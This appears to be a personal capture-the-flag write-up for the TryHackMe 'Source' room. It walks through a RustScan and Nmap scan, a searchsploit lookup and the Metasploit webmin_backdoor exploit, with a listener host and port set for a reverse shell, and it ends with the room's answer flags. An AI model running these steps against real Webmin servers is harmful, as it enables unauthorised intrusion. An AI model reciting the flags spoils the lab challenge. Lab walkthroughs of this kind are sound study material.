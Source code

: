 # ♦ Day 09
</br>
</br>

## ◙ ***TRYHACKME ROOM***
 </br>
 
# ♦ [SOURCE](https://tryhackme.com/r/room/source) : 
   ⇨ Exploit a recent vulnerability and hack Webmin, a web-based system configuration tool. 
   </br>
   </br>
### ◙ Step-By-Step Guide 



### • 1. First we have to connect it to the TRYHACKME platform for that we have to go to the ***Acess*** in profile and then Download the open vpn file in ***.ovpn*** format.


### • 2. Connect to the Vpn using ***sudo openvpn >file that u downloaded<.ovpn***.

### • 3. Open a Different terminal 'Remember not to close the vpn file till the work is done' and scan the Ip that was generated by THM while starting the   machine and try saving the report by using ***RUSTSCAN***. </br>

  #### ***⇨*** { ***NOTE: Rustscan is much more efficient when we have to scan all the port in a fast manner,rustscan is upgraded version of nmap but it dont give all the dtails of open ports so we acn again use nap to scan open ports after we get the open ports from using rustscan*** }. </br>


## ◙ Difference between Nmap and RustScan.


|    Feature    |                    Nmap                   |               RustScan              |
| ------------- | ----------------------------------------- | ----------------------------------- |
|     Speed     | Slower due to comprehensive scanning      | Very fast, designed for quick scans |
|  Flexibility  | Highly flexible with many options         | Less flexible, focuses on speed     |
|  Programming  | Written in C                              | Written in Rust                     |
|     Usage     | Widely used for detailed network analysis | Best for quick port scanning        |
|  Installation | Available on most systems                 | Requires installation of Rust       | </br>



### • 4. Now Download the rustscan from its orignal website that is in github and here is the [LINK](https://github.com/RustScan/RustScan/releases/download/2.2.3/rustscan-2.2.3-x86_64-linux.tar.xz). Then extract and install and u r ready to use it.

### • 5. Now let's set the room ip in ***/etc/hosts*** so we don't have to type ip everytime. 
    sudo nano /etc/hosts

### • 6. Scan for the open ports in the ip by rustscan and save it as rustscan-sv-sc-source.txt
     sudo rustscan -a source.com -- --script vuln -oN rustscan-sv-sc-source.txt

as we can see it dont give us full details On the Open Ports so we will again use Nmap to scan the open ports we got from the rustscan.

### • 7. Now we will use the Nmap to scan all the known open ports.
    sudo nmap -p(port no.) -sV source.com

### • 8. As we obtainesd ports details from the upper scan now we will search for the spoloits feom search ***searchsploits*** Command so we got that its is a webmin fro mm yupper scan so we will do:
    seachsploit webmin


### • 9. And as it contains "Metasploit" as one of the sploits available so we will use ***msfconsole***.
    msfconsole

### • 10. And now we will search for the sploits for webmin in msfconsole.
    search webmin

### • 11. We hav eto select ***exploit/linux/http/webmin_backdoor*** whichever number it is in.

### • 12. Now we gotta see what informations are required to be filed to usee this sploit for tht we wioll use:
    show options 

### • 13. Now fill all the required infos
    set RHOSTS >the ip that was given by the room<

    set LHOST >the ip of ur vpn/tun0<

    set LPORT >the port u wanna use for this operation(tht port should be free/not alredy in use)<
  
  Also set SSL to true and AutoCheck false
  
    set SSL true 

    set AutoCheck false
  
 And BOOOOM! use ***exploit***
     
    exploit


# ♦ ANSWERS :

## ◙ TASK 1 :

⍰. User.txt </br>


  ⇨ THM{SUPPLY_CHAIN_COMPROMISE} 

  

⍰. root.txt </br>

  
  ⇨ THM{UPDATE_YOUR_INSTALL}
